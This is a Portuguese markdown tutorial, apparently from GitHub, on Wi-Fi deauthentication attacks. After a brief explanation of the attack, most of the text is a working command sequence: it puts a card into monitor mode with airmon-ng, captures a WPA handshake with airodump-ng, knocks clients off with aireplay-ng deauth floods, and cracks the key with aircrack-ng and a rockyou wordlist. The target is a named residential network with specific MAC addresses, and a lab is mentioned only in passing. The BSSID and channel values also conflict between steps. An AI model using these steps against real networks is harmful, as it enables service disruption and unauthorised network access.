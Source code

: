 # Ataque de Deauth ou Dissociação de Redes WI-FI

Redes cabeadas se autenticam com 3 Way Handshake, eqto redes de Wi-fi autenticam com 4 Way Handshake.

🛡️ Como funciona um ataque de desautenticação?

Os atacantes que desejam realizar um ataque de desautenticação geralmente usam dispositivos habilitados para Wi-Fi e software especializado. O processo básico envolve o seguinte:

    - Captura de tráfego Wi-Fi: O atacante inicia a captura de tráfego da rede Wi-Fi alvo usando ferramentas como um sniffer de pacotes.
    - Identificação de dispositivos-alvo: O atacante identifica os dispositivos que desejam desconectar da rede.
    - Envio de pacotes de desautenticação: Usando o endereço MAC dos dispositivos-alvo, o atacante envia pacotes de desautenticação, forçando os dispositivos a se desconectarem da rede.
    - Repetição contínua: O atacante pode repetir esse processo para manter os dispositivos desconectados da rede.

🎯 Objetivos de um ataque de desautenticação de Wi-Fi

Os atacantes realizam ataques de desautenticação de Wi-Fi por várias razões, incluindo:

    - Interrupção da conectividade: Desconectar dispositivos da rede pode causar interrupções significativas nas operações normais, afetando a produtividade e o acesso à Internet.
    - Espionagem: O ataque pode ser usado como uma tática para espionar o tráfego de rede dos dispositivos-alvo enquanto eles tentam se reconectar à rede.
    - Ameaças cibernéticas: Em alguns casos, os ataques de desautenticação podem ser o primeiro passo para invasões mais graves, como ataques de força bruta a senhas.


## Instala a ferramenta de monitoramento:

```bash
sudo apt install aircrack-ng
```

## Valida o nome da sua placa de rede wi-fi:

```bash
ip -c addr
```

## Com a ferramenta AIRMON-NG, validamos possíveis conflitos de hardware antes de iniciar os processos:

```bash
sudo airmon-ng check kill
```

## Coloca a placa de rede wi-fi em modo monitoramento:

```bash
sudo airmon-ng start wlp0s20f3
```

## Valida o novo nome da sua placa de captura de redes wi-fi:

```bash
ip -c addr
```

```bash
sudo airmon-ng
```

## Com a ferramenta AIRODUMP-NG, inicia o scan de todas as redes próximas (aparecerão diversas redes):

```bash
sudo airodump-ng wlp0s20f3mon
```

## Encerra o scan das redes após escolher o alvo:

```bash
ctrl+c
```

## Anote o ESSID (Nome) da rede alvo, bem como o BSSID (MAC) e tbém o CANAL (CH):

```bash
Condominio_Flores_II
```

```bash
64:D1:54:09:EE:3E
```

```bash
4
```

## Podemos validar apenas a rede alvo, se preferir:

```bash
sudo airodump-ng wlp0s20f3mon -d 70:4F:57:70:B6:5A
```

## Posso me conectar á rede wi-fi alvo, se for um laboratório, usando um celular.

## Vai constar o novo cliente, com dados do aparelho, definidos em STATION.

`TERMINAL 01` - VAMOS INICIAR A CAPTURA DOS PACOTES

## Subo o comando de captura de pacotes da rede alvo e salvo o arquivo de captura:

```bash
sudo airodump-ng -w capturados -c 2 --bssid 70:4F:57:70:B6:5A wlp0s20f3mon
```
OU
```bash
sudo airodump-ng -w capturados --channel 2 --essid Condominio_Flores_II wlp0s20f3mon
```

Á partir daqui, eu aguardo algum dispositivo se conectar para realizar a captura do 4 Way Hand Shake.... OU

`TERMINAL 02` - VAMOS INICIAR O ATAQUE DE DESAUTENTICAÇÃO

## Inicia o ataque ao roteador alvo (todos os clientes caem durante o ataque):

```bash
sudo aireplay-ng --deauth 0 -a 70:4F:57:70:B6:5A wlp0s20f3mon
```

Posso tbém, desautenticar apenas um dispositivo específico

```bash
sudo aireplay-ng --deauth 5 -a 70:4F:57:70:B6:5A -c 28:6C:07:6F:F9:53 wlp0s20f3mon
```

## Ao tentar re-conexão, os clientes entregam o handshake de 4 vias no TERMINAL 01:

```bash
[WPA handshake]: 70:4F:57:70:B6:5A
```

## Podemos encerrar a captura no TERMINAL 01

```bash
ctrl+c
```

## Podemos encerrar o ataque no TERMINAL 02

```bash
ctrl+c
```

## Até esse ponto apenas teríamos um ataque de Negação de serviço (DDOS), MAS, nós salvamos um arquivo com informações (capturados.cap) e vamos usá-lo

## Instale o Wireshark e abra o arquivo de captura, filtrando mensagens criptografadas, do tipo EAPOL:

```bash
sudo apt install wireshark
```

```bash
wireshark capturados.cap
```

OU

## Baixe sua wordlist para quebrar a senha capturada usando o aircrack-ng:

```bash
wget https://github.com/zacheller/rockyou.git
```

```bash
wc -l rockyou.txt
```

## Focaremos apenas em senhas que contenham de 8 a 64 caracteres, diminuindo o tempo de conjunções:

```bash
sudo grep -x '.\{8,64\}' rockyou.txt > wparockyou.txt
```

```bash
wc -l wparockyou.txt
```

```bash
aircrack-ng capturados.cap -w /home/usuariox/wordlists/rockyou.txt
```

## O resultado deve ser uma mensagem:

```bash
KEY FOUNF [ P@ssword123 ]
```

## Retira a placa de rede wi-fi do modo monitoramento:

```bash
airmon-ng stop wlp0s20f3mon
```

## Restaura sua placa de rede para navegação:

```bash
systemctl restart NetworkManager
```


## Alternativa de varredura de rede pelo terminal:
```bash
nmcli device wifi list 
```
```bash
N-USE = rede que você está usando
BSSID = endereço do roteador
SSID = nome da rede
MODE = infra (?)
CHAN = canal que está sendo utilizado pelo roteador
RATE = taxa de transferência
SIGNAL = intensidade do sinal em %
BARS = intensidade do sinal em barras
SECURITY = protocolos de segurança do roteador
```


